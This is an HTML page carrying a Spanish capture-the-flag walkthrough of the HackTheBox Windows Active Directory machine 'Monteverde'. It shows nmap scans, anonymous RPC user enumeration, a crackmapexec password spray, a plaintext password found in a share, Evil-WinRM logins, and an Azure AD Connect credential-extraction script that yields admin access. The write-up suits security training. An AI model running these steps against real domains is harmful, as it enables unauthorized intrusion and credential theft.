






<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Monteverde</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Monteverde" de HackTheBox

Caracteristicas:

- Windows  
- Media Active 
- Directory  
- RPC Enumeration Credential Brute Force 
- CrackMapExec Shell Over WinRM Abusing Azure Admins Group 
- Obtaining the administrator's password (Privilege Escalation)

Util en:

- OSCP 
- OSEP 
- Active Directory

        IP 10.10.10.172 

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.172 -oG allPorts


<pre>
    <code>
    PORT      STATE SERVICE
    53/tcp    open  domain
    88/tcp    open  kerberos-sec
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    389/tcp   open  ldap
    445/tcp   open  microsoft-ds
    464/tcp   open  kpasswd5
    593/tcp   open  http-rpc-epmap
    636/tcp   open  ldapssl
    3268/tcp  open  globalcatLDAP
    3269/tcp  open  globalcatLDAPssl
    5985/tcp  open  wsman
    9389/tcp  open  adws
    49667/tcp open  unknown
    49669/tcp open  unknown
    49670/tcp open  unknown
    49673/tcp open  unknown
    49702/tcp open  unknown
    49771/tcp open  unknown
    </pre>
</code>


- nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sC -sV  10.10.10.172  -oN targeted


<pre>
<code>

    PORT     STATE SERVICE       VERSION

    53/tcp   open  domain?
    | fingerprint-strings:
    |   DNSVersionBindReqTCP:
    |     version
    |_    bind
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-18 22:18:09Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped
    5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    9389/tcp open  mc-nmf        .NET Message Framing
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service:
    SF-Port53-TCP:V=7.80%I=7%D=1/18%Time=5E2381D3%P=x86_64-pc-linux-gnu%r(DNSV
    SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
    SF:x04bind\0\0\x10\0\x03");
    Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
    Host script results:
    |_clock-skew: 9m55s
    | smb2-security-mode: 
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2020-01-18T22:20:26
    |_  start_date: N/A

    </code>
</pre>


vemos puertos típicos de Windows. TCP DNS (53)  Kerberos (TCP 88) y LDAP (TCP 389) sugiere que podría ser un controlador de dominio

No parece que pueda conectarme a SMB sin credenciales

- smbclient -N -L //10.10.10.172
- smbmap -H 10.10.10.172 
- smbmap -H 10.10.10.172 -u test

Pero podemos obtener una sesión RPC sin credenciales:

- rpcclient -U "" -N 10.10.10.172

rpcclient $>

Puedo obtener una lista de usuarios con descripciones.

<pre>
<code>
rpcclient $> querydispinfo
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
</code>
</pre>

Creé una lista de usuarios a partir de esta información y pude encontrar un usuario que usaba el nombre de usuario como contraseña  a través de crackmapexec:

- crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success

smbmapme dice qué tenemos recursos compartidos



a travez del proceso de eliminacion nos quedamos con el recurso users$ y tenemos acceso a un archivo: azure.xml , en el mhope : directorio  



copiamos y miramos el archivo.



Intentamos iniciar sesión usando Evil-WinRM como mhope (el directorio de usuario donde se encontró el archivo) con la contraseña recién descubierta 4n0therD4y@n0th3r$.



veamos que puede hacer esta cuenta de usuario



Cargué el script de PowerShell desde aquí (https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1 ) y lo ejecuté, 
revelando más credenciales.



Luego me volví a conectar usando Evil-WinRM con el usuario administrador recién descubierto y d0m@in4dminyeah con su contraseña y somos root.
buscamos la flag y terminada.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>